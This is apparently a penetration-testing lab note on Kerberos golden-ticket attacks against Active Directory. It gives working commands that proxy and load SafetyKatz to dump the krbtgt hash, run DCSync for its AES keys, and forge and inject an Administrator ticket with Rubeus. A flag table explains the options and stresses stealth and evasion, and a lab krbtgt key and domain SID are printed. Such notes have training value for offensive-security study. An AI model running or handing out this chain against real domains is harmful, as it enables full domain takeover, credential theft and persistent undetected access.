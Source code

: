 A golden ticket is signed and encrypted by the hash of krbtgt account
which makes it a valid TGT ticket. The krbtgt user hash could be used to impersonate any user with any privileges from even a non-domain machine.

> [!NOTE] **NOTE**
> As a good practice, it is recommended to change the password of the krbtgt account twice as password history is maintained for the account.
> 
> In real world environments, the krbtgt hash is rarely to never changed because who wants to fuck that up

Execute mimikatz (or a variant) on DC as DA to get krbtgt hash
```powershell
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.48

C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args "lsadump::evasive-lsa /patch" "exit"
```

Use DCSync to get AES keys for krbtgt account. This requires DA privileges (or a user that has replication rights on the domain object) and doesn't require RCE on the DC
```powershell
C:\AD\Tools\Loader.exe -path C:\AD\Tools\SafetyKatz.exe -args "lsadump::evasive-dcsync /user:dcorp\krbtgt" "exit"
```


Use Rubeus to forge a Golden ticket command with attributes similar to a normal TGT - **AND ALWAYS TARGET AN ACTIVE DA** 
```powershell
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args evasive-golden /aes256:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /sid:S-1-5-21-719815819-3726368948-3917688648 /ldap /user:Administrator /printcmd
```


> [!NOTE] **IMPORTANT**
> Remember to add `/ptt` at the end of the generated command to inject the ticket into our current session


Now we can run the generated command which is OPSEC Friendly forge. 
```powershell
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe evasive-golden 
/aes256:<keys> /user:Administrator /id:500 /pgid:513 /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /pwdlastset:"11/11/2022 6:33:55 AM" /minpassage:1 /logoncount:2453 /netbios:dcorp /groups:544,512,520,513 /dc:DCORP-DC.dollarcorp.moneycorp.local /uac:NORMAL_ACCOUNT,DONT_EXPIRE_PASSWORD /ptt
```

```
154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848
```

| Option                                   | Description                                                                         |
| ---------------------------------------- | ----------------------------------------------------------------------------------- |
| golden                                   | Name of the module                                                                  |
| /aes256:154CB6624[SNIP]                  | AES256 keys of the krbtgt account. Using AES keys makes the attack more silent      |
| /user:Administrator                      | Username for which the TGT is generated                                             |
| /id:500                                  | User RID (retrieved from the DC) (Default 500)                                      |
| /pgid:513                                | Primary Group ID (retrieved from the DC) (Default 513)                              |
| /groups:544,512,520,513                  | Groups the user is a member of (retrieved from the DC) (Default 520,512,513,519,518 |
| /domain:dollarcorp.moneycorp.local       | FQDN of the domain (retrieved from the DC)                                          |
| /sid:S-1-5-21-71981[SNIP]                | SID of the current domain                                                           |
| /pwdlastset:"11/11/2022 6:33:55 AM"      | The PasswordLastSet for the user (retrieved from the DC)                            |
| /minpassage:1                            | “Minimum Password Age” in days (retrieved from the DC)                              |
| /logoncount:2453                         | Logon Count for the user (retrieved from the DC)                                    |
| /netbios:dcorp                           | NetBIOS name of the domain (retrieved from the DC)                                  |
| /dc:DCORP-DC.dollarcorp.moneycorp.local  | FQDN of the DC (retrieved from the DC)                                              |
| /uac:NORMAL_ACCOUNT,DONT_EXPIRE_PASSWORD | UserAccountControl Flags (retrieved from the DC)                                    |
| /ptt                                     | Inject in the current process                                                       |


![[Pasted image 20250508054121.png]]